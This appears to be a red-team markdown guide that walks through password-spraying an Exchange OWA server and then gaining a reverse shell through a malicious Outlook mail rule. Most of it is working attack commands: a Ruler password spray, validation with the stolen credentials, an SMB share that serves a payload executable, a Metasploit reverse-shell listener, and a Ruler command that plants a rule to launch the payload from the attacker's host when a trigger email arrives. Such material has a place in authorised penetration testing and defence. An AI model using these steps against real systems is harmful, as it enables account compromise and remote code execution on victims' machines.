# Password Spraying OWA to RCE


### Getting a Shell via Malicious Email Rule
If the password spray against an Exchange server was successful and you have obtained valid credentials, you can now leverage [Ruler](https://github.com/sensepost/ruler) to create a malicious email rule to that will gain you remote code execution on the host that checks that compromised mailbox.

### A high level overwiew of how the spraying and remote code execution works:
1. assume you have obtained working credentials during the spray for the user `spotless@offense.local`.
2. with the help of Ruler, a malicious mail rule is created for the compromised account which in our case is `spotless@offense.local`. The rule created will conform to the format along the lines of:
`if emailSubject contains someTriggerWord start pathToSomeProgram`.
3. A new email with subject containing `someTriggerWord` is sent to the `spotless@offense.local`.
4. User spotless logs on to his/her workstation and launches Outlook client to check for new email.
5. Malicious email comes in and the malicious mail rule is triggered, which in turn starts the program specified in pathToSomeProgram which is pointing to a malicious payload giving a reverse shell to the attacker.

## How to Exploit

### Password Spraying
```bash
ruler -k --domain offense.local brute --users users --passwords passwords --verbose
```

### Getting a Shell via Malicious Email Rule
* Let's validate the compromised credentials are working by checking if there are any email rules created already:
```bash
ruler -k --verbose --email spotless@offense.local -u spotless -p 123456  display
```

* We now need to [create an SMB share](https://github.com/fortra/impacket/blob/master/examples/smbserver.py) that is accessible to our victim host and point it to the location where our payload evilm64.exe is located:
```bash
smbserver.py tools /root/tools/
```

* Next, we setup a metasploit listener to catch the incoming reverse shell:
```bash
use exploit/multi/handler 
set lhost 10.0.0.5
set lport 443
exploit
```

* Finally, we fire up the ruler and create the malicious email rule:
```bash
ruler -k --verbose --email spotless@offense.local --username spotless -p 123456  add --location '\\10.0.0.5\tools\\evilm64.exe' --trigger "popashell" --name maliciousrule --send --subject popashell
```

<img src="https://github.com/Mehdi0x90/Red-Team/assets/17106836/640ebd5a-f763-4916-a76d-260cf9fe2fd5" width="400" height="500">


* If you want to delete the malicious email rule, do this:
```bash
ruler -k --verbose --email spotless@offense.local --username spotless -p 123456 delete --name maliciousrule
```















































































